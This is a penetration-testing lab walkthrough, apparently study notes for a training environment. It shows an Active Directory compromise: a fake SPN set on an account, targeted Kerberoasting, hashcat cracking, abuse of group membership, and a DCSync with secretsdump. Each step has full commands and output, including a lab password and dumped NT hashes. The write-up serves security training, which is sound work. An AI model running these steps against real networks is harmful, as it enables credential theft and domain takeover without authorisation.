 # Active Directory Compromise

To recap, we dug through the Active Directory environment and obtained the following credential pair:

`mssqladm:DBAilfreight1!`

Digging into the BloodHound data we see that we have `GenericWrite` over the `ttimmons` user. Using this we can set a fake SPN on the `ttimmons account` and perform a targeted Kerberoasting attack. If this user is using a weak password then we can crack it and proceed onwards.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Let's go back to the `DEV01` machine where we had loaded PowerView. We can create a PSCredential object to be able to run commands as the `mssqladm` user without having to RDP again.

```powershell
PS C:\DotNetNuke\Portals\0> $SecPassword = ConvertTo-SecureString 'DBAilfreight1!' -AsPlainText -Force
PS C:\DotNetNuke\Portals\0> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\mssqladm', $SecPassword)
```

Next we'll use `Set-DomainObject` to set a fake SPN on the target account. We'll create an SPN named `acmetesting/LEGIT` which we'll of course delete later and note in the appendices of our report.

```powershell
PS C:\DotNetNuke\Portals\0> Set-DomainObject -credential $Cred -Identity ttimmons -SET @{serviceprincipalname='acmetesting/LEGIT'} -Verbose

VERBOSE: [Get-Domain] Using alternate credentials for Get-Domain
VERBOSE: [Get-Domain] Extracted domain 'INLANEFREIGHT' from -Credential
VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainSearcher] Using alternate credentials for LDAP connection
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=ttimmons)(name=ttimmons)(displayname=ttimmons))))
VERBOSE: [Set-DomainObject] Setting 'serviceprincipalname' to 'acmetesting/LEGIT' for object 'ttimmons
```

Next we can go back to our attack host and use `GetUserSPNs.py` to perform a targeted Keberoasting attack.

```shell-session
$ proxychains GetUserSPNs.py -dc-ip 172.16.8.3 INLANEFREIGHT.LOCAL/mssqladm -request-user ttimmons

ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.9.24.dev1+20210922.102044.c7bc76f8 - Copyright 2021 SecureAuth Corporation

Password:
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:389-<><>-OK
ServicePrincipalName  Name      MemberOf  PasswordLastSet             LastLogon  Delegation 
--------------------  --------  --------  --------------------------  ---------  ----------
acmetesting/LEGIT     ttimmons            2022-06-01 14:32:18.194423  <never>               



|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:88-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:88-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:88-<><>-OK
$krb5tgs$23$*ttimmons$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/ttimmons*$6c391145c0c6430a1025df35c3e674c4$<SNIP>
```

Next we'll fire up Hashcat and see if the user is using a weak password.

```shell-session
$ hashcat -m 13100 ttimmons_tgs /usr/share/wordlists/rockyou.txt

hashcat (v6.1.1) starting...

<SNIP>

$krb5tgs$23$*ttimmons$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/ttimmons*$$6c391145c0c6430a1025df35c3e674c4$<SNIP>:<PASSWORD REDACTED>
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, TGS-REP
Hash.Target......: $krb5tgs$23$*ttimmons$INLANEFREIGHT.LOCAL$INLANEFRE...6e6976
Time.Started.....: Wed Jun 22 16:32:27 2022 (22 secs)
Time.Estimated...: Wed Jun 22 16:32:49 2022 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   485.7 kH/s (2.50ms) @ Accel:16 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 10678272/14344385 (74.44%)
Rejected.........: 0/10678272 (0.00%)
Restore.Point....: 10672128/14344385 (74.40%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: Rock4ever! -> Redeye2

Started: Wed Jun 22 16:32:24 2022
Stopped: Wed Jun 22 16:32:51 2022
```

They are! Now we have yet another credential pair, time for the ttimmons user. Let's check and see what type of access this user has. Looking in BloodHound again we see that we have `GenericAll` over the `SERVER ADMINS` group.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Looking a bit further we see that the `SERVER ADMINS` group has the ability to perform the DCSync attack to obtain NTLM password hashes for any users in the domain.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We use abuse this by first adding the `ttimmons` user to the group. First we'll need to create another PSCredential object.

```powershell
PS C:\htb> PS C:\DotNetNuke\Portals\0> $timpass = ConvertTo-SecureString '<PASSWORD REDACTED>' -AsPlainText -Force
PS C:\DotNetNuke\Portals\0> $timcreds = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\ttimmons', $timpass)
```

Once this is done, we can add the user to the target group and inherit the DCSync privileges.

```powershell
PS C:\DotNetNuke\Portals\0> $group = Convert-NameToSid "Server Admins"
PS C:\DotNetNuke\Portals\0> Add-DomainGroupMember -Identity $group -Members 'ttimmons' -Credential $timcreds -verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Add-DomainGroupMember] Adding member 'ttimmons' to group 'S-1-5-21-2814148634-3729814499-1637837074-1622
```

Finally, we can use Secretsdump to DCSync all NTLM password hashes from the Domain Controller.

```shell-session
$ proxychains secretsdump.py ttimmons@172.16.8.3 -just-dc-ntlm

ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.9.24.dev1+20210922.102044.c7bc76f8 - Copyright 2021 SecureAuth Corporation

Password:
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:135-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:49676-<><>-OK
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fd1f7e55xxxxxxxxxx787ddbb6e6afa2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:b9362dfa5abf924b0d172b8c49ab58ac:::
inlanefreight.local\avazquez:1716:aad3b435b51404eeaad3b435b51404ee:762cbc5ea2edfca03767427b2f2a909f:::
inlanefreight.local\pfalcon:1717:aad3b435b51404eeaad3b435b51404ee:f8e656de86b8b13244e7c879d8177539:::
inlanefreight.local\fanthony:1718:aad3b435b51404eeaad3b435b51404ee:9827f62cf27fe221b4e89f7519a2092a:::
inlanefreight.local\wdillard:1719:aad3b435b51404eeaad3b435b51404ee:69ada25bbb693f9a85cd5f176948b0d5:::

<SNIP>
```

***

## Next Steps

After making sure to document all of our steps we could perform a number of actions, many of which are detailed in the next section. Its definitely a good idea to dump the entire NTDS database and perform offline password cracking to give the client an idea of their overall password strength and other metrics. You could also show evidence of being able to authenticate to a Domain Controller and running a few commands as this may drive the point home more than seeing secretsdump output, which they may not be familiar with. Connecting to the Domain Controller via RDP and including a screenshot to the report showing a console open with the results of the `hostname`, `whoami`, and `ipconfig /all` commands can be a great visual. There is also a lot of extra value we can add after Domain Admin by performing additional audit steps of AD, attacking domain and forest trusts (if in scope) and, finally, testing the client's alerting by either creating a new Domain Admin and Enterprise Admin or adding an account we control into each of these groups. Ideally they are monitoring these highly privileged groups and will catch this and either manually, or, even better, have something automated in place to remove the accounts from the groups. If you do this definitely include this action in the report as a configuration change in the appendices and also give the client kudos if they do detect it and action it appropriately. Giving credit for the good things you see in the network/the client does is important and goes a long way towards building good will.
